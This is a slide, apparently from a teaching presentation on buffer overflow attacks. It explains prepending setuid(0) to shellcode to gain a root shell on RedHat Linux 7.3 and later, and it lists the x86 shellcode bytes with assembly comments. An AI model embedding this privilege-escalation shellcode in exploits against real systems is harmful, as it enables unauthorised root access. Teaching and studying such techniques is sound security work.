

Solution
In fact, the hacker can insert a code which calls setuid(0) in beginning of the original shellcode to get the root shell.
setuid(0) makes a program runs as if the root runs it

This segment of shellcode is necessary for buffer overflow attacks for RedHat Linux 7.3 and later versions.
setuid(0); code
----------------------------------------------------------------------------
char code[]=
        "\x31\xc0"                      /* xorl %eax,%eax        */
        "\x31\xdb"                      /* xorl %ebx,%ebx        */
        "\xb0\x17"                      /* movb $0x17,%al        */
        "\xcd\x80";                     /* int $0x80             */
----------------------------------------------------------------------------
4